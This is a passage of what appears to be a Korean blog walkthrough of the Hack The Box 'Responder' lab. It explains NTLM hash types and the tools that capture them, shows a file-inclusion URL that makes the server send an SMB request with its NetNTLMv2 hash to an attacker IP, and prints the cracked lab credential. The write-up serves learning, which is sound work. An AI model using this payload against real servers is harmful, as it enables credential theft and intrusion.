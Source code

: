 ``` C:\Windows\System32\drivers\etc\hosts ```
<br>
**NTHash vs NTLM vs NetNTMLv2**


| 항목         | 실전 핵심 요약 |
|--------------|----------------|
| NTHash   | - 사용자의 비밀번호를 MD4 해시로 변환한 값<br> - 비밀번호의 MD4 해시<br> - SAM 또는 NTDS.dit에서 덤프 가능<br> - Pass-the-Hash 공격에 사용됨<br> - mimikatz, secretsdump.py로 추출 가능 |
| NTLM   | - 인증 프로토콜(NTLMv1/NTLMv2)<br> - 인증 과정에서 NetNTLM 응답이 생성됨<br> - LLMNR/NBNS/SMB 릴레이 공격에 쓰임<br> - 기본적으로 Kerberos보다 보안 약함 |
| NetNTLMv2| - NTLMv2 인증 시 네트워크로 전송되는 응답 메시지<br> - Responder, Inveigh, MITM6로 수집 가능<br> - Hashcat, John으로 오프라인 크래킹 가능<br> - 자격 증명 탈취 없이 크래킹 가능하므로 주요 표적 |

<br>

### 4.Responder
<br>
php 기본 설정
- allow_url_include = off
- allow_url_fopen = off

> 이러한 설정으로 HTTP, FTP 같은 외부 주소로 연결 요청을 보내지 않고 외부 파일은 안열어주지만 예외가 있다.

> SMB는 막지 못한다. php에서 SMB URL을 열면 서버가 SMB 요청을 보내게 되고 NTLM 해시도 같이 보내게 된다.

<figure style="text-align:center;">
    <img src="{{ '/assets/images/HTB/responder/6_responder.png' | relative_url }}" style="width:600px;">
    <figcaption>Responder</figcaption>
</figure>

<br>

```  http://unika.htb/index.php?page=//10.10.15.45/whatever  ```
{: .text-center .fs-5}

위의 주소를 url에 입력하면<br>

서버는 공격자의 IP주소로 SMB 접속을 시도하면서 whatever라는 폴더를 열려고 시도하게 된다.

이 과정에서 NetNTLMv2 응답이 공격자에게 넘어가게 된다.

<br>



해시값을 hash.txt 이름으로 저장하고 john the ripper 툴을 이용해 해시크래킹을 시도한다.
<br>


<figure style="text-align:center;">
    <img src="{{ '/assets/images/HTB/responder/8_hashcracking.png' | relative_url }}" style="width:600px;">
    <figcaption>해시크래킹</figcaption>
</figure>

> 획득한 계정<br>
> Administrator:badminton

<br>

### 5. WinRM
<br>
```